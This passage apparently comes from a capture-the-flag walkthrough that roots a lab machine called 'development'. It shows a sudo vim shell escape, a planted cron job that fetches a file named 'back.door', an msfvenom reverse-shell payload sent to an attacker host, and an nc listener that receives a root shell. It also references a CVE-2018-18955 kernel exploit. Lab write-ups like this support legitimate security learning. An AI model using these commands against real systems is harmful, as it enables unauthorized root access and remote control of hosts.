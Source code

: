 ```console
patrick@development:~$ sudo vim -c ':!/bin/bash'

root@development:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Privilege escalation with nano**

Another way to escalate privileges is to create a cron job in the **cron.d** directory to download a linux payload, give it execute permissions, and run it, as shown below:

```console
patrick@development:~$ sudo nano /etc/cron.d/evilcron
```
![](/assets/images/development/screenshot-10.png)

Then we will create a linux payload with the following instruction:

```console
root@kali:~$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=192.168.179.1 LPORT=443 -f elf -o back.door
```

We set up a nc listener and after a minute the cron job will download and execute the payload giving us a shell, as shown below:

```console
root@kali:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.179.130 - - [23/Apr/2021 17:36:01] "GET /back.door HTTP/1.1" 200 -
```

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.130] 36224
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux development 4.15.0-34-generic #37-Ubuntu SMP Mon Aug 27 15:21:48 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
cat /root/proof.txt
Congratulations on rooting DEVELOPMENT! :)
```

Another way to get root on this box is through kernel exploitation which is vulnerable to [CVE-2018-18955](https://nvd.nist.gov/vuln/detail/CVE-2018-18955), you can find the exploit [here](https://www.exploit-db.com/exploits/47165), or also through **lxd** since the user patrick is member of the group lxd.

